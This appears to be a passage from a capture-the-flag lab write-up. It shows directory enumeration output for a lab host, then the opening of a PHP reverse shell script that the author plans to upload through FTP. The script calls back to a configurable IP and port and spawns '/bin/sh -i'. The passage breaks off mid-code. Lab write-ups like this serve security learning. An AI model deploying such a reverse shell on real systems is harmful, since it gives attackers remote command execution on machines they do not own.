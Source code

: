 ```

Target: http://10.10.231.18/

[21:09:34] Starting: 
[21:09:42] 403 -  277B  - /.ht_wsr.txt
[21:09:42] 403 -  277B  - /.htaccess.bak1
[21:09:42] 403 -  277B  - /.htaccess.orig
[21:09:42] 403 -  277B  - /.htaccess.save
[21:09:42] 403 -  277B  - /.htaccess_extra
[21:09:42] 403 -  277B  - /.htaccess.sample
[21:09:42] 403 -  277B  - /.htaccess_sc
[21:09:42] 403 -  277B  - /.htaccessBAK
[21:09:42] 403 -  277B  - /.htaccess_orig
[21:09:42] 403 -  277B  - /.htaccessOLD
[21:09:42] 403 -  277B  - /.htaccessOLD2
[21:09:42] 403 -  277B  - /.htm
[21:09:42] 403 -  277B  - /.html
[21:09:42] 403 -  277B  - /.htpasswd_test
[21:09:42] 403 -  277B  - /.htpasswds
[21:09:42] 403 -  277B  - /.httr-oauth
[21:09:44] 403 -  277B  - /.php
[21:09:44] 403 -  277B  - /.php3
[21:10:20] 301 -  312B  - /files  ->  http://10.10.231.18/files/
[21:10:20] 200 -  511B  - /files/
[21:10:45] 403 -  277B  - /server-status/
[21:10:45] 403 -  277B  - /server-status

Task Completed
```
## There is directory called files let take a look.

<div align="center">
  <img src="https://github.com/user-attachments/assets/11198d1b-640a-45bd-979b-3ef9d9a2538b" height="300"></img>
</div>

## Its as we saw in FTP so maybe we can add file form ftp to this directory so let upload a reverse shell here.
```
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
```